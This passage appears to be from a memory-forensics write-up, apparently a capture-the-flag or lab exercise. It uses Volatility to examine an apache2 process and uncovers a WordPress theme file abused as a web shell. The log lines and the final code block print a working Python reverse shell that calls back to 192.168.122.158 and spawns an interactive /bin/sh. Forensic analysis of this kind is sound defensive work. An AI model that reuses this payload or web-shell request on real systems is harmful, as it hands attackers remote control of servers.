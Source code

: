 We can notice something really strange, it could be dangerous:

```bash
$ vol.py --plugins=../plug_vol/ --profile=LinuxOdie_profilex64 -f memory.dmp linux_proc_maps -p 21733 > papache_customizerphp
$ cat papache_customizerphp| grep 7f0733fb        
0xffff9796baa41000    21733 apache2              0x00007f0733fae000 0x00007f0733fb4000 rw-                   0x0      0      0          0 
0xffff9796baa41000    21733 apache2              0x00007f0733fb4000 0x00007f0733fc4000 rwx                   0x0      0      0          0 
$ vol.py --plugins=../plug_vol/ --profile=LinuxOdie_profilex64 -f memory.dmp linux_dump_map -s 0x00007f0733fae000 -p 21733 -D .
Volatility Foundation Volatility Framework 2.6.1
Task       VM Start           VM End                         Length Path
---------- ------------------ ------------------ ------------------ ----
     21733 0x00007f0733fae000 0x00007f0733fb4000             0x6000 ./task.21733.0x7f0733fae000.vma
$ strings ./task.21733.0x7f0733fae000.vma | grep customizer.php
band/inc/customizer.php47
51%\GET /wp-content/themes/rock-band/inc/customizer.php?x=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.122.158%22,3615));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1
192.168.122.158 - - [27/Dec/2018:21:08:21 +0100] "GET /wp-content/themes/rock-band/inc/customizer.php?x=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.122.158%22,3615));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1" 500 185 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0"
```

After URL decoding the data (thanks CyberChef), beautify the python code, it looks to:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.122.158",3615))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

